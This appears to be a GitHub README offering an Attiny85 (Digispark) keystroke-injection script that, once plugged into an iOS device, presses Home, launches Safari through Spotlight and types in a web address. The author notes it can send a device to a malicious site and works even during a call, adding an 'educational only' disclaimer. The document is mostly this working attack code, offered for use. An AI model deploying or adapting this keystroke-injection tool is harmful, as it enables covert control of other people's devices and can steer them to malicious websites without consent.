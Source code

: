 # Attiny85ScriptiOSOpenApp
This repo open Safari in a iOS Device and visit a web site using a Attiny85.

The script could be use to open other apps or connect the device to malicious web site.

Firsts command is to press "Home botton", so you can use the script though device is in a call ;) .

                                            !!!! DISCLAIMER !!!!
This script is only for educational and I m not responsable if you use it for malicious things.


In Arduino IDE copy (or modify) script:



#include "DigiKeyboard.h"
void setup() {
 
}

void loop() {


  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_H, MOD_GUI_LEFT); //Home 
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT); // Search
  DigiKeyboard.delay(800);
  DigiKeyboard.print("safari"); //Safari ;)
  DigiKeyboard.sendKeyStroke(KEY_ENTER); 
  DigiKeyboard.delay(800);
  DigiKeyboard.sendKeyStroke(KEY_L, MOD_GUI_LEFT); //Search URL in Safari
  DigiKeyboard.delay(800);
  
  DigiKeyboard.print("chehackme.com"); //my WebSite just for example
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);


  DigiKeyboard.delay(100000);


 
}
